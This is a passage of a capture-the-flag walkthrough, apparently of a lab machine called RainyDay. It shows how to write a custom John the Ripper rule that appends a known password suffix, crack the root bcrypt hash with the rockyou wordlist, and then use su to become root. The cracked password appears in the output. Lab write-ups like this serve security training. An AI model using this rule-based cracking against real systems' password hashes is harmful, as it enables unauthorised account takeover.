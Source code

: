 
I’ll find some of the other parts that start with `[List.Rule:<name>]` and add
mine in:

    
    
    # A "no rules" rule for eg. super-fast Single mode (use with --single=none)
    [List.Rules:None]
    :
    
    [List.Rules:rainyday]
    Az"H34vyR41n"
    
    # A "drop all" rule for even faster Single mode (debugging :)
    [List.Rules:Drop]
    <1'0
    

[This post](https://miloserdov.org/?p=5477) goes into how to append a string
as a rule:

![image-20230214202748582](https://0xdfimages.gitlab.io/img/image-20230214202748582.png)

Since `N` is the position, it says to use `z` to append to the end. I’ll save
and exit `john.conf`.

#### Recover Password

Now I’ll run `john` with that rule, and it cracks in about a second:

    
    
    oxdf@hacky$ john root.hash --rules=rainyday --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 32 for all loaded hashes
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
    Enabling duplicate candidate password suppressor
    246813579H34vyR41n (root)     
    1g 0:00:00:01 DONE (2023-02-15 01:26) 0.5405g/s 5137p/s 5137c/s 5137C/s lilgirlH34vyR41n..101086H34vyR41n
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed. 
    

### su

With the potential root password, I’ll try `su -`, and it works:

    
    
    jack_adm@rainyday:/dev/shm$ su -
    Password: 
    root@rainyday:~# 
    